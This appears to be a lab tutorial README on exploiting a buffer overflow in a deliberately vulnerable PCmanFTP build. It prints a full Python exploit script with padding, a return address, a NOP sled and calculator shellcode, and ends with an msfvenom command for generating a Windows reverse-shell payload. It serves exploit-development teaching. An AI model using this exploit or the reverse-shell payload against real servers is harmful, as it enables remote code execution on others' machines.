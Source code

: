 # Buffer Overflow in PCmanFTP
---
## Step by step
### Software:

- Immunity Debugger
- mona.py
- VMware
- Notepad++
- PCmanFTP (modified to be vulnerable by Dreg)

### OS:

 - Windows 10 Pro
 - Kali Linux
 -----
 First we will explain how we have violated it and finally we will explain the complete exercise.
 ## First part: Let's understand the program
 This program has the vulnerability that when it receives a connection from a client and is sent more than X bytes at the start of the session, it gets corrupted and a BoF can be  carried out. 
In order to exploit it we are going to use a python script created by David Reguera (from now on we will call him Dreg) which creates the connection with the FTP server and sends X bytes at the beginning of the session. Let's see it:
````sh
#!/usr/bin/env python

from socket import *
from time import sleep
from sys import exit, exc_info
import os

print ("-") *40
print ("| PCman_N4CH-HCKr FTP Server v2.0.7 |")
print ("-") *40
print ("|                  thankss to Dreg! |")
print ("-") *40

os.system("ifconfig eth0 mtu 3000")

target_ip = "127.0.0.1"
port = int(21)

#This shellcode run a calculator
shellcode_calc = '\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2\x52\xff\xd0'

#badchars = 00 0a ad 0e 0f
#addres to jmp = 1010539F

current_shellcode = shellcode_calc

shellcode = '\x41' * 2011#padding
shellcode += '\x9f\x53\x10\x10' #retorno
shellcode += '\x90' * 20
shellcode += current_shellcode


print("\nshellcode content (size " + str(len(shellcode))  + " bytes):\n")
print(":".join("{:02x}".format(ord(c)) for c in shellcode))
print("\n")

target = inet_aton(target_ip)
target = inet_ntoa(target)

try:
    socket = socket(AF_INET, SOCK_STREAM)
except:
    print "\nError creating the network socket\n\n%s\n" % exc_info()       
    exit(1)    

try:
    print "Connecting to %s %d" % (target, port)
    socket.connect((target, port))
except:
    print "\nError connecting to %s\n\n%s\n" % (target, exc_info())
    exit(1)
    
print("Connected!")
sleep(1)
print(socket.recv(1000))
sleep(1)
print("Logging as anonymous")
socket.send('USER anonymous\r\n')
sleep(1)
print(socket.recv(1024))
print("Empty password")
sleep(1)
socket.send('PASS\r\n')
sleep(1)
print(socket.recv(1024))
try:
    print "Sending evil packet to %s %d (length: %d bytes), please wait a few secs...." % (target, port, len(shellcode))
    socket.send(shellcode)
    sleep(4)
    socket.close()

except:
    print "\nError sending evil packet to %s\n\n%s\n" % (target, exc_info())
    exit(1)


print("\n\nDone! :-)\n")


sleep(1)
````

Once we run this program, we will launch the script and get the calculator to run. Logically it is a very simple example but if instead of that shellcode we put a reverse shellcode we could get remote code execution. Example of how to create our reverse shellcode with MSFVENOM:
````sh
# msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp -e x86/alpha_mixed LHOST=127.0.0.1 LPORT=21  -f python
````

